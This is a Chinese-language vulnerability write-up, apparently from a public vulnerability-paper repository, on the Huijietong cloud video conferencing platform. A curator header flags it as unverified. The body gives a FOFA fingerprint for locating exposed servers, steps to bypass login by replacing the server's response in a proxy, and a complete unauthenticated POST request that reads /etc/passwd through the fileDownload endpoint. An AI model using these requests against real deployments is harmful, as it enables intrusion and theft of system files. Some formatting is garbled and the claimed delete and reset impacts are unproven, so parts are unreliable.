






# 会捷通云视讯 响应替换登录与fileDownload任意读取两实体

## 条目说明

- 对象与具体问题：会捷通云视讯；响应替换登录与fileDownload任意读取两实体
- 版本、配置及部署条件：版本未知；Restlet2.1.1响应为示例
- 认证与权限前提：下载匿名；UI响应替换不等于服务端授权
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 登录后任意删除/重启/升级/重置没有后续API请求响应，风险效果未被本篇证明
- 请求响应用竖线/粗体而非代码块，FOFA缺闭合引号，响应长度需核
- 无修复/影响范围；下载所有文件受服务进程权限限制

## 操作风险

请求可能删除/覆盖数据、修改账号或持久改变业务状态。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/aiNQmDaLgaEh9B-8lsyFPA)

**1、描述**

  

会捷通云视讯平台存在登录绕过漏洞，可通过修改返回包绕过后台登录，还可进行任意操作删除，重启、升级、重置等等

会捷通云视讯平台存在任意文件读取漏洞。

**2、影响范围**

  

会捷通云视讯平台

  

  

  

  

  

**3、漏洞复现**

  

```
fofa:body="/him/api/rest/v1.0/node/role
```

  

  

  

  

一、登录绕过漏洞

**替换登录返回包内容即可绕过登录验证。**

| 

**HTTP/1.1 200** 

**Date: Thu, 25 Mar 2021 13:53:45 GMT**

**Accept-Ranges: bytes**

**Server: Restlet-Framework/2.1.1**

**Vary: Accept-Charset, Accept-Encoding, Accept-Language, Accept**

**Content-Type: application/json;charset=UTF-8**

**Connection: close**

**Content-Length: 28**

**{"token":null,"result":null}**

 |

**1.** **拦截数据包**



**输入任意用户 / 密码，如 admin/admin**  

**2. 点击登录，拦截返回包，替换为如下内容**



**正常返回包：提示密码错误：**  



**替换：**  



**放开拦截，可任意操作，删除，重启、升级、重置等等**

| 

**HTTP/1.1 200** 

**Date: Thu, 25 Mar 2021 13:53:45 GMT**

**Accept-Ranges: bytes**

**Server: Restlet-Framework/2.1.1**

**Vary: Accept-Charset, Accept-Encoding, Accept-Language, Accept**

**Content-Type: application/json;charset=UTF-8**

**Connection: close**

**Content-Length: 28**

**{"token":null,"result":null}**

 |

   

公众号

二、任意文件读取漏洞  

**无需登录、可未授权读取服务器所有文件**

通过访问漏洞 url：  

```
/fileDownload?action=downloadBackupFile
```

再通过载体 “fullPath=” 即可进行任意文件读取

| 

```http
POST /fileDownload?action=downloadBackupFile HTTP/1.1  

Host: x.x.x.x

Content-Length: 20

User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 11_2_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36 Edg/89.0.774.57

Content-Type: application/x-www-form-urlencoded; charset=UTF-8

Accept: */*

Origin: http://x.x.x.x

Referer: http://x.x.x.x

Accept-Encoding: gzip, deflate

Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6,pl;q=0.5

Connection: close

fullPath=/etc/passwd

 |
```




---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
